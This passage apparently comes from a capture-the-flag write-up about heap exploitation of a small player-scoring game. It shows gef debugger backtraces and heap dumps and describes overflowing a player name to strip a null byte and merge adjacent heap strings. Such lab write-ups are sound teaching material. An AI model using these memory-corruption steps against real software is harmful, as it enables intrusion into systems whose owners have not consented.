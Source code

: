 ```
[#1] 0xf7ec3cd7 → read()
[#2] 0xf7e50188 → _IO_file_underflow()
[#3] 0xf7e512ab → _IO_default_uflow()
[#4] 0xf7e44151 → _IO_getline_info()
[#5] 0xf7e4429e → _IO_getline()
[#6] 0xf7e4304c → fgets()
[#7] 0x56555ae9 → add esp, 0x10
[#8] 0x56555c8f → mov DWORD PTR [ebp-0x30], eax
[#9] 0xf7df5e81 → __libc_start_main()
─────────────────────────────────────────────────────────────────────────────────────────────────────
0xf7fd5949 in __kernel_vsyscall ()
gef➤  x/40x 0x565589b0
0x565589b0:    0x00000000    0x00000000    0x00000000    0x00000011
0x565589c0:    0x30303030    0x30303030    0x30303030    0x00000011
0x565589d0:    0x31313131    0x31313131    0x31313131    0x00000011
0x565589e0:    0x35353535    0x35353535    0x35353535    0x35353535
0x565589f0:    0x33330035    0x33333333    0x33333333    0x00000011
0x56558a00:    0x34343434    0x34343434    0x34343434    0x34343434
0x56558a10:    0x00000034    0x00000000    0x00000000    0x00000000
0x56558a20:    0x00000000    0x00000000    0x00000000    0x00000000
0x56558a30:    0x00000000    0x00000000    0x00000000    0x00000000
0x56558a40:    0x00000000    0x00000000    0x00000000    0x00000000
```

Now to get rid of the null byte, we will just update the overflowed name with a new value. This will get rid of the null byte, and effectively merge the two names.

```
gef➤  x/40x 0x565589b0
0x565589b0:    0x00000000    0x00000000    0x00000000    0x00000011
0x565589c0:    0x30303030    0x30303030    0x30303030    0x00000011
0x565589d0:    0x31313131    0x31313131    0x31313131    0x00000011
0x565589e0:    0x35353535    0x35353535    0x35353535    0x35353535
0x565589f0:    0x33330035    0x33333333    0x33333333    0x00000011
0x56558a00:    0x34343434    0x34343434    0x34343434    0x34343434
0x56558a10:    0x00000034    0x00000000    0x00000000    0x00000000
0x56558a20:    0x00000000    0x00000000    0x00000000    0x00000000
0x56558a30:    0x00000000    0x00000000    0x00000000    0x00000000
0x56558a40:    0x00000000    0x00000000    0x00000000    0x00000000
gef➤  c
Continuing.
4
Which player index should i change:
3
Enter new name: 66666666666666666

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
I think you missed a key there

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
2
Player 000000000000 currently has 0 points.
Player 111111111111 currently has 0 points.
Player 555555555555555566666666666666666 currently has 0 points.
Player 66666666666666666 currently has 0 points.
```